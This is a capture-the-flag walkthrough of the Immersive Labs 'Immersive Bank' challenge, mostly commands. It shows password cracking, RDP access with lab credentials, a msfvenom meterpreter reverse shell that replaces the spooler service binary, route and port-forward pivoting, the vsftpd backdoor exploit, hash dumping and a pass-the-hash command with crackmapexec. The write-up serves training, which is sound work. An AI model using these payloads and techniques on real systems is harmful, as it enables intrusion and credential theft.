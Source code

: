 ```yaml
---
date: 2025-03-07
categories: [CTF, ImmersiveLabs]
title: "IML - Immersive Bank"
tags: ['ftp', 'hashdump', 'john the ripper', 'privilege escalation', 'rce', 'reverse shell', 'smb', 'windows']

description: "Immersive Bank - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Immersive Bank

**<u>Immersive Bank: Ep.1 – Open Source and Credentials</u>**
```bash
john hash /usr/share/wordlists/rockyou.txt --format=raw-sha256S

```

![image1](../resources/5a9da1d38d9441d98ec574c0ffb4167f.png)


![image2](../resources/ff8b07f220184b248f67c606e02f9cb2.png)

**<u>Immersive Bank: Ep. 2 – Gaining Access</u>**
```bash
xfreerdp /v:10.102.189.120:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image3](../resources/cb678f99260b4d77a1dab3ca4c44216b.png)

**<u>Immersive Bank: Ep.3 – Privilege Escalation</u>**
```bash
xfreerdp /v:10.102.118.107:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```
Troubleshooting file in C:\IMLBankIT


![image4](../resources/88128aa965a04ed0ac96f26867735f29.png)


![image5](../resources/877f385f297546559a08df9e6e23d37d.png)

```bash
sc query spooler

```

![image6](../resources/ac759a27b55043848b971c7a027f940f.png)

- Create a reverse shell named spoolsv.exe
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.102.170.0 LPORT=4445 -f exe -o spoolsv.exe

```
- Set up listener
```bash
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.102.170.0; set lport 4445; exploit"

```
- Transfer the malicious exe and replace the original

- Start service:
```bash
sc start spooler

```

![image7](../resources/2932eb0ce39f4c62b97c6bff51ff6b1d.png)

- Migrate to a more stable process:
```bash
ps

migrate -N LogonUI.exe

```

![image8](../resources/7f9c57411e0e4f59b9f889983c4b05f2.png)


cat C:\Users\Administrator\Desktop\token.txt


**<u>Immersive Bank: Ep.4 – Pivoting</u>**

```bash
xfreerdp /v:10.102.146.57:8877 /u:carlof /p:manunited +clipboard +drives /drive:root,/home/kali /dynamic-resolution /cert:ignore

```

![image9](../resources/f08f524068394b3897f76128fb2a307a.png)

- Do above exploit first to get SYSTEM and migrate to a more stable process

- Ping the FTP server to see if we can talk to it

![image10](../resources/a989c28fb914484d9688ace7e54588da.png)

- Background current meterpreter session (bg):

![image11](../resources/afcfabd38ef1469f974786de9ca2124e.png)

- Now we need to add a route to the FTP server:
```bash
route add 10.102.36.63 255.255.255.255 1

```

![image12](../resources/52f0db74f48147e98ec6c4a5ea0746fc.png)

- Back to the session:
```bash
sessions 1

```
- Forward port 3000 on our localhost to port 21 on the FTP server:
```bash
portfwd add -l 3000 -p 21 -r 10.102.36.63

```

![image13](../resources/9c146bdd6c44465c8a4e427a3400a9d0.png)

- Open another terminal

Banner grab with nc or ftp:

```bash
nc 127.0.0.1 3000

```

![image14](../resources/d4298ca418c1452882729f07eed0aad7.png)


![image15](../resources/d7f7f68f0c37441085fbbe2a0edcfe70.png)

- Background current meterpreter session:
```bash
bg
```

- Search for vsftpd in msf and use the following payload:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 10.102.36.63  #Because route was added
set rport 21

```

![image16](../resources/3b18d9c8b1d04027a0569275690c1a27.png)


![image17](../resources/c0fa403808ce4f60bbdf40d93421bbdc.png)

**\*\*Tip** - before going on to Ep.5 - Do a hashdump in meterpreter and save the manager hash

**<u>Immersive Bank: Ep.5 – Account Abuse</u>**
- If you didn't save the hash on Ep.4 - you need to do the whole priv esc part again and in meterpreter, do a hashdump:

![image18](../resources/77e33bc5545047ccafe4f89b8a61a53b.png)

manager:1002:aad3b435b51404eeaad3b435b51404ee:**66ece2b7200f29cbd0b799350c29244e**:::

- We can check the credentials with CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e

```

![image19](../resources/a31d5f5b29d745d1a259b508479988a7.png)

- We can also execute commands through CME:
```bash
crackmapexec smb 10.102.154.232 -u manager -H 66ece2b7200f29cbd0b799350c29244e -x 'type C:\Users\manager\Desktop\token.txt'

```

![image20](../resources/b52cd74f9da74350835fa359aca1d24a.png)
